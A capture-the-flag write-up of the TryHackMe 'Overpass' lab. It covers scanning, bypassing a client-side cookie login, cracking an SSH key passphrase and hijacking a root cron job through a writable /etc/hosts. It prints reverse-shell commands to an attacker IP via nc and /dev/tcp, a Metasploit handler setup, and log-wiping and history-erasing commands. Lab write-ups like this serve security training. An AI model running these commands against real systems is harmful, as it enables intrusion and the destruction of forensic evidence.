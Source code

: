 # THM:overpass

URL: https://tryhackme.com/room/overpass [Easy]

## Reconnaissance

Description of the room:

> What happens when some broke CompSci students make a password manager?
>  
> What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!
>  
> There is a TryHackMe subscription code hidden on this box. The first person to find and activate it will get a one month subscription for free! If you're already a subscriber, why not give the code to a friend?
> 
> *UPDATE: The code is now claimed.
The machine was slightly modified on 2020/09/25. This was only to improve the performance of the machine. It does not affect the process.*

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/] 
```

Also see: [gobuster.log](gobuster.log)

## Gaining Access

Started by looking at `/admin/` page to see if there was anything exploitable.

### Unprivileged Access

Javascript on the `/admin/` page has a simple check (note the `else` clause):

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Basically, if the `SessionToken` cookie is set, that is all you need to be "logged in". This is the [OWASP definition of Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication).

To get around this, we go into Developer Tools (<kbd>F12</kbd>) to execute:

```javascript
Cookies.set("SessionToken", "")
```

Then, refresh the page. You will be logged in and will see an exposed SSH private key. Capture that (to `./james_id_rsa`). We need to run:

> `ssh2john.py ./james_id_rsa > ./james_id_rsa.hash`

to get this private key into a format that John the Ripper can crack. Finally, we can run the following to get the password for the SSH private key:

> `john ./id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt`

This [shows us](john.log) the password is: `james13`. We can now SSH into this server with:

> `ssh james@xxx.xxx.xxx.xxx -i ./james_id_rsa`

From that, we can retrieve the `user.txt` flag.

### Privilege Escalation

Linpeas showed that we had write-permissions on `/etc/hosts`. Meanwhile, `/etc/crontab` has an entry like this:

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Also see: [linpeas.log](linpeas.log)

#### The Killchain

This is a multi-step operation where we need to stand up a web server to offer our payload to the target machine, who we want to trick into download that payload. The idea is to:

1. Target: Modify `/etc/hosts` to point back to our workstation for `overpass.thm`.
1. Attacker: Stand up a webserver that hosts `/downloads/src/buildscript.sh`.
1. Attacker: Develop a payload that will spawn a reverse shell, and put it into that `buildscript.sh`.
1. Attacker: Create a listener to catch the session (e.g. `nc` or Metasploit).

Then, in the next minute:

1. The cronjob will kick off, reach out to OUR server for `buildscript.sh`.
1. `buildscript.sh` executes, running as `root`, and connects back to our listener.
1. We now have a reverse shell running as `root`. We can now retrieve the `/root/root.txt` flag.

For more of the details, see below.

#### Reverse Shell: ATTACKER

Use Netcat:

> `nc -l -p 9999 -vvv`

OR use Metasploit:

> `sudo msfdb init && msfconsole`

And set the Options, thusly (replacing `10.2.11.212` with your workstation IP address):

```metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.2.110.212
set LPORT 9999

exploit
```

#### Reverse Shell: TARGET

On the target machine (by-hand for testing, and then ultimately via `buildscript.sh`), connect to the listener on our attacker box with Netcat:

> `nc yyy.yyy.yyy.yyy 9999 -e /bin/bash`

However, since there are variations of `nc` and some don't allow the `-e` argument - if you get an error about that, you could use some Linux trickery with this statement:

> `exec 5<>/dev/tcp/yyy.yyy.yyy.yyy/9999 && cat <&5 | while read line; do $line 2>&5 >&5; done`

**NOTE:** Make sure to set `yyy.yyy.yyy.yyy` to the attacker IP address and `9999` to the attacker port.

[Source: https://incognitjoe.github.io/reverse-shells-for-dummies.html]

Also see: [buildscript.sh](downloads/src/buildscript.sh)


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {}\;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: [`2022-01-20 20:08:10`]